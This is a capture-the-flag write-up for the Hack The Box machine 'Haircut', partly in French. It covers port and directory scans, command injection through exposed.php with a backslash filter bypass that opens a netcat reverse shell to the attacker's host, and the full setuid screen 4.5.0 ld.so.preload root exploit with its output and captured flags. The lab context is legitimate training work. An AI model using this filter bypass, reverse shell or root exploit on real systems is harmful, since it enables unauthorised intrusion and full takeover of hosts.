


# HTB - Haircut  10.10.10.24


# nmap

```
# nmap -A 10.10.10.24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-01 11:50 CEST
Nmap scan report for 10.10.10.24
Host is up (0.032s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```


nginx/1.10.0 (Ubuntu)

# gobuster

dirb, nikto give nothing

Install gobuster and runit
```
wget https://github.com/OJ/gobuster/releases/download/v3.0.1/gobuster-linux-amd64.7z
7z x gobuster-linux-amd64.7z
cd gobuster-linux-amd64.7z
./gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.16.27.142  -l -x html,php,js,txt
./gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.24 -l -x html,php,txt
/index.html (Status: 200) [Size: 144]
/uploads (Status: 301) [Size: 194]
/test.html (Status: 200) [Size: 223]
/hair.html (Status: 200) [Size: 141]
/exposed.php (Status: 200) [Size: 446]
```




# exposed.php

Preview of a web page
- no access to internet
- acces to Kali http server
- Bad hostname -> error msg with curl : curl: (6) Could not resolve host: localhoast




Try

`curl http://10.10.14.30/bob`  -> received in http serve log
`nc 10.10.14.30 4444 -e /bin/bash`   -> nc filtered
`n\c 10.10.14.30 4444 -e /bin/bash`  -> bash filtered
`n\c 10.10.14.30 4444 -e /bin/ba\sh`  -> OK

```
# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.24: inverse host lookup failed: Unknown host
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.24] 51388

whoami
www-data

pwd
/var/www/html

No python, use python3
python3 -c 'import pty; pty.spawn("/bin/bash")'  

Ctrl-Z

# In Kali
$ stty raw -echo
$ fg
```

# get User
```
cat Desktop/user.txt
 0b0da2af50e9ab7c81a6ec2c562afeae
pwd
/home/maria
```

# get root

```
uname -a
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

$ find / -perm -4000 2>/dev/null | xargs ls -al
-rwsr-xr-x 1 root   root       1588648 May 19  2017 /usr/bin/screen-4.5.0
www-data@haircut:~/html$ 
```

screen-4.5.0 permet d'écrire dans un ficheir arbitraire.
https://www.exploit-db.com/raw/41154

All in one script
```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

Ne passe pas : pb de compilation, il faut le compiler à la main sur kali
cat libhax.c
```
// Set s bit on /tmp/rootshell
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
gcc -fPIC -shared -ldl -o libhax.so libhax.c


cat /tmp/rootshell.c
```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
gcc -o rootshell rootshell.c

Transfert compiled 64 bits files
python -m SimpleHTTPServer
wget 10.10.14.30:8000/libhax.so
wget 10.10.14.30:8000/rootshell

On créé /etc/
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!


Triggering, screen itself is setuid, so......
```
screen -ls  
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
There is a screen on:
	2787.pts-0.haircut	(Attached)
1 Socket in /tmp/screens/S-www-data.


ls -al /tmp
total 136
drwxrwxrwt 10 root     root      4096 Sep  1 17:42 .
drwxr-xr-x 23 root     root      4096 May 16  2017 ..
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .ICE-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .Test-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .X11-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .XIM-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .font-unix
-rwxr-xr-x  1 www-data www-data  1152 Sep  1 17:18 41154.sh
-rw-r--r--  1 www-data www-data   252 Sep  1 17:20 libhax.c
-rw-r--r--  1 www-data www-data 16136 Sep  1  2019 libhax.so
-rwxr-xr-x  1 www-data www-data 45652 Sep  1 15:44 linenum.sh
-rwsr-xr-x  1 root     root     16824 Sep  1  2019 rootshell
-rw-r--r--  1 www-data www-data   134 Sep  1 17:20 rootshell.c
drwxr-xr-x  3 root     www-data  4096 Sep  1 17:09 screens
drwx------  3 root     root      4096 Sep  1 11:39 systemd-private-1d6837ef12c04ec090043988a431440a-systemd-timesyncd.service-T5O7Br
drwx------  2 root     root      4096 Sep  1 11:39 vmware-root
www-data@haircut:/etc$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haircut:/etc$ /tmp
bash: /tmp: Is a directory
www-data@haircut:/etc$ /tmp/rootshell 
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/flag.txt
cat: /root/flag.txt: No such file or directory
# cd /root
# ls
root.txt
# cat root.txt
4cfa26d84b2220826a07f0697dc72151
# 

```

